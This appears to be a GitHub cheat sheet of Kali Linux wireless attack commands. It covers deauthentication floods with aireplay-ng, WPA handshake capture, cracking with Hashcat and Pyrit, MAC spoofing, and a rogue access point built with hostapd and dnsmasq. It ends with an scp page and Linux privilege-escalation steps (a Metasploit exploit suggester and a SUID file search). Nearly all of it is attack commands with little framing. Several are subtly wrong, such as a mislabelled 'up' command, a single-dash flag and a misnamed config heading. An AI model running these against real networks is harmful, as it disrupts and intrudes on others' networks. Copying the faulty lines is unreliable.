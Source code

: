 # Kali-Linux-Reference

## Enabling Monitor Mode

* `iwconfig` : Show all network devices 
* `ifconfig wlan1 up` : To make sure network device is up and running 
* `airmon-ng` : Show all network cards 
* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 

## Reset to normal mode

* `airmon-ng stop wlan1mon` : Stop monitor mode
* `service network-manager start` : Restart network settings

## Sniffing Packets using airodump-ng

*PWR = Signal Strength should be above than -70*
* `airodump-ng wlan1mon` : Start sniffing
* `airodump-ng --bssid wlan1mon` :  Targeted sniffing


## macchanger

* `ifconfig wlan1 down` : Bring down the interface
* `macchanger -r wlan1` : Change mac address to random
* `ifconfig wlan1 down` : Bring the interface up


## Capturig Handshake file
* `airodump-ng -bssid [bssid] --channel [1] --write Desktop/Captures/WPA wlan0mon`

## Deauth Attacks

* `airodump-ng --channel --bssid  wlan1mon`
* `aireplay-ng --deauth 2000 -a [MAC of Access Point] -c [MAC of  Client] wlan1mon`

## Cracking Handshake file with Hashcat (Windows)
* `hashcat64.exe -m 2500 capture.hccap wordlist.lst`
* Keyspace method
* `hashcat64.exe -m 2500 -a3 capture.hccap -1 1234567890 ?1?1?1?1?1?1?1?1`
* `hashcat64.exe -m 2500 -a3 capture.hccap -1 ?d?d?d?d?d?d?d?d`

## Pyrit Reduce size of WPA/WPA2 .Cap file
* `pyrit -r capture.cap analyze`
* `pyrit -r capture.cap -o output.cap strip`


# Rouge Access Point

## Enabling Monitor Mode

* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 
* `ifconfig wlan1mon 10.0.0.1/24` : Set IP of Monitor Interface

## Install tools

* `apt-get install -y hostapd dnsmasq wireless-tools iw wvdial`

## Configure dnsmasq

* `mv /etc/dnsmasq.conf /etc/dnsmasq.conf_bkp` : Create backup of config file
* `vim /etc/dnsmasq.conf`

## dnsmasq.conf file
```
log-facility=/var/log/dnsmasq.log
#address=/#/10.0.0.1
#address=/google.com/10.0.0.1
interface=wlan0mon
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
#no-resolv
log-queries
```

* `vim /etc/hostapd/hostapd.conf`

## dnsmasq.conf file
```
interface=wlan1mon
driver=nl80211
ssid=Rouge-AP
channel=1
#enable_karma=1
```

## Start dnsmasq 

* `service dnsmasq start`
* `tail -f /var/log/dnsmasq.log`

## Start hostapd 

* `hostapd /etc/hostapd/hostapd.conf`

## scp

> Secure copy.
> Copy files between hosts using Secure Copy Protocol over SSH.

- Copy a local file to a remote host:

`scp {{path/to/local_file}} {{remote_host}}:{{path/to/remote_file}}`

- Copy a file from a remote host to a local folder:

`scp {{remote_host}}:{{path/to/remote_file}} {{path/to/local_dir}}`

- Recursively copy the contents of a directory from a remote host to a local directory:

`scp -r {{remote_host}}:{{path/to/remote_dir}} {{path/to/local_dir}}`

- Copy a file between two remote hosts transferring through the local host:

`scp -3 {{host1}}:{{path/to/remote_file}} {{host2}}:{{path/to/remote_dir}}`

- Use a specific username when connecting to the remote host:

`scp {{path/to/local_file}} {{remote_username}}@{{remote_host}}:{{path/to/remote_dir}}`

- Use a specific ssh private key for authentication with the remote host:

`scp -i {{~/.ssh/private_key}} {{local_file}} {{remote_host}}:{{/path/remote_file}}`

## Local Exploit Suggestor:
`post/multi/recon/local_exploit_suggester`

## Executeables with SUID bit set
`find / -perm -u=s -type f 2>/dev/null `
